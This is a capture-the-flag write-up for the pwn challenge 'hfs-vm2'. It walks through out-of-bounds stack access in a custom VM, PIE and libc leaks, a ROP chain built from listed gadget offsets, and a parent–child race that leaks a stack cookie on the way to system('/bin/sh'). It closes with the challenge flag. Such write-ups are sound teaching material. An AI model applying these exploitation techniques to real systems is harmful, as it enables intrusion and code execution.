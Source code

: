 # hfs-vm2

**Category**: Pwn

660 Points
14 Solves

---

Binary functionality is explained in hfs-vm writeup.

The vulnerability exists in writing and reading to stack. The stack in the struct is indexed using the value from a register, and each register can store a 16 bit integer. Thus, we have out of bounds read and write on the stack.

Using this vulnerability, we can leak pie and libc from the stack into a register and print it out. Additionally, we can edit the return address of main.

Getting leaks:
```python
code += readstack(6, (0x68/2)) // pie leak
code += readstack(7, (0x68/2)+1)
code += readstack(8, (0x68/2)+2)
code += readstack(9, (0x68/2)+3)
code += addreg(6, 0x3e2)

code += readstack(10, (0xa8/2)) // libc leak
code += readstack(11, (0xa8/2)+1)
code += readstack(12, (0xa8/2)+2)
code += readstack(13, (0xa8/2)+3)
code += subreg(10, 0x830)
code += subreg(11, 0x2)
```

Registers 10-13 store our libc leak and register 6-9 store our pie leak.

One thing to note, however, is that we can only send VM code once to the binary, and at this stage, we cannot edit our VM code, so we essentially do not have leaks. However, since the binary provides us with adding capabilities, we can use the leaks, and adding/subtracting to create a ropchian 2 bytes at a time.

Ropchaining using relative additions:
```python
// gadget at offset libc + 0x22e8
code += addreg(10, 0x2e8)
code += addreg(11, 0x2)
code += putstack2(10, (0xb0/2))
code += putstack2(11, (0xb0/2)+1)
code += putstack2(12, (0xb0/2)+2)
code += putstack2(13, (0xb0/2)+3)
code += subreg(10, 0x2e8)
code += subreg(11, 0x2)
```

Now because we only have roughly 1000 bytes at our disposal and each VM instruction is 8 bytes, we cannot create a super long ropchain. So the idea is to trigger a read(rsp) to overwrite the return address and create an infinitely long ropchain. This is easily done using pop rdi, rsi, and rdx gadgets in the binary. However I hadtrouble getting the gets() or read() functions to work for some reason, but the read function used in the binary itself worked.

With an infinitely long ropchain at our disposal, we can now exploit more easily. However, the child has seccomp enabled:

```
prctl(PR_SET_SECCOMP, SECCOMP_MODE_STRICT)
```

SECCOMP_MODE_STRICT only allows four syscalls: exit(), sigreturn(), read(), and write(). So, basically we cannot get a shell on the child process, so we have to attack the parent process.

Remember that the parent process copies data from the shared memory based on the first 2 bytes as size in the shared memory. Well, if we can control these first two bytes to be something very big, then we will have a stack overflow on the parent. HOWEVER, the binary changes the stack cookie in the parent process:

```C
v6 = fopen("/dev/urandom", "rb");
    v7 = v6;
    if ( v6 )
    {
      fread(&cookie, 8uLL, 1uLL, v6);
      fclose(v7);
      store_cookie(cookie);
      v8 = start_kernel(fds[1]);
      exit(v8);
    }

//--------------

store_cookie    proc near
                push    rdx
                mov     rdx, rdi
                mov     fs:28h, rdx
                pop     rdx
                retn
store_cookie    endp
```

So we don't know the cookie in the parent process, so we can't overflow the parent process without triggering stack_chk_fail.

The solution to this is a race condition bug in the parent process. The parent process first reads data from the shared memory based on its length onto its stack, performs syscalls, then writes data from its stack into the shared memory. If we have a small length in the beginning, the stack won't be smashed, then if the child process changes the length before the parent process finishes its syscall, then the parent process copies its entire stack, including the stack cookie, over to us! Luckily there is a syscall in the parent that essentially does a sleep(4), allowing us to exploit the race condition easily.

Notice that we have to implement all of this through a ropchain, not shellcode. A pointer to the shared memory is stored in the binary, which we can read using an arbitrary read gadget. The following gadgets are the ones I ended up using for the final exploit:

```
poprdi = libc + 0x0000000000021102 # pop rdi ; ret
poprsi = libc + 0x00000000000202e8 # pop rsi ; ret
poprdx = libc + 0x0000000000001b92 # pop rdx ; ret
poprcx = libc + 0x00000000000ea69a # pop rcx ; pop rbx ; ret
subrdi = libc + 0x00000000000aaf8b # sub rdi, 0x10 ; add rax, rdi ; ret
arbread = libc + 0x00000000000c8850 # mov rax, qword ptr [rdi + 0x20] ; ret
arbwrite = libc + 0x000000000003655a # mov qword ptr [rdi], rax ; xor eax, eax ; ret
movrdirax = libc + 0x0000000000086b37 # mov rdi, rax ; pop rbx ; pop rbp ; pop r12 ; jmp rcx
ret = libc + 0x0000000000000937 # ret
poprax = libc + 0x0000000000033544 # pop rax ; ret
writetofd = pie + 0x12d0
readfromfd = pie + 0x1250
bss = pie + 0x203130
addrax = libc + 0x000000000008d45a # add rax, rdi ; ret
```

If we implement it correctly, we now have the parent process's stack in the shared memory. We can now continue the ropchain to edit the return address of the parent's stack to a ropchain that calls system("/bin/sh"). Then we simply send a syscall to the parent again, and the parent copies its own smashed stack to its current stack from the shared memory, replacing its return address.

This step, however, took me 2 hours because the parent uses memcpy to copy bytes from the shared memory to its stack. For whatever reason, the sizes I tried, 0x200 and 0x98, caused memcpy to completely trash the shared memory, but memcpy works properly when I used the size 0x90. I had been stuck on this step for 2 hrs and there was 10 minutes left in the competition, and when I randomly tried changing the size to 0x90, it worked! Pwned! This is my favorite challenge in the competition :)

## Flag
midnight{7h3re5_n0_I_iN_VM_bu7_iF_th3r3_w@s_1t_w0uld_b3_VIM}
